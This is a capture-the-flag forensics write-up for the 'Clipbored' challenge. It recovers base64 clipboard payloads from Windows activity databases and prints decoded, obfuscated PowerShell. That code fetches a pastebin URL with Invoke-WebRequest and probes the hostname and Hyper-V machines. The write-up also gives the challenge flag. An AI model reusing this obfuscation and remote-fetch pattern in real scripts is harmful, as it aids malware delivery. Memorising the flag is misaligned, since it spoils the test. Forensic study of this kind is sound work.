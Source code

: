 # Clipbored

![chall](challenge.png)

## Files

* **clipbored.zip**: challenge file

<details>
<summary>Solution</summary>

* After unzipping the file, we get two SQLite databases: `History` and `ActivitiesCache.db`.
* We start by browsing the `History` DB. It looks like a DB that could be part of a web browser, as it contains URL and search queries.
* We understand that some user, "Julie", was tricked to download and execute some remote access program by a malicious actor.
* After browsing for a while with no success, we continue with `ActivitiesCache.db` file.
* After browsing for a while, we find a column **ClipboardPayload** in the **SmartLookup** table.
* It contains multiple entries which looks like base 64 encoded strings.
* After decoding each, we finally find something looking like obfuscated PowerShell.
* Giving it to ChatGPT, we obtain the following result :
    <details>
    <summary>Decoded PowerShell</summary>

    ```powershell
    $encodedString = "oQfg...aIlGJ" # stripped for readability

    $reversed = $encodedString.ToCharArray()
    [array]::Reverse($reversed)
    $reversedString = -join $reversed

    switch ($reversedString.Length % 4) {
        0 { $fixed = $reversedString }
        1 { $fixed = $reversedString.Substring(0, $reversedString.Length - 1) }
        2 { $fixed = $reversedString + "==" }
        3 { $fixed = $reversedString + "=" }
    }

    $decoded = [System.Text.Encoding]::UTF8.GetString(
        [System.Convert]::FromBase64String($fixed)
    )
    ```

    </details>

* This code obviously decodes a base64 string after reversing it and fixing its padding.
* Let's do these operations with CyberChef. Here is the result:
    <details>
    <summary>Decoded PowerShell</summary>

    ```powershell
    $iHhuAhve99 = "http://pastebin.com/iLhSDfxb" 
    $bFdgCGRC99 = Invoke-WebRequest -Uri $iHhuAhve99 -UseBasicParsing
        Write-Host "ERROR"
    Write-Host "$ENv:COMPUTERNAME"
            if (Get-Command Get-VM -ErrorAction SilentlyContinue) {
    Write-Host "`nMachines virtuelles (Hyper-V) dÃ©tectÃ©es :"
    Get-VM | Select-Object Name, State
            } else {
    Write-Host ":)"
        }
    ```

    </details>

* The pastebin link looks interesting. Let's visit it.
* Hey, that's the flag !

Flag : `ECW{c1ippy_is_b4ck}`


</details>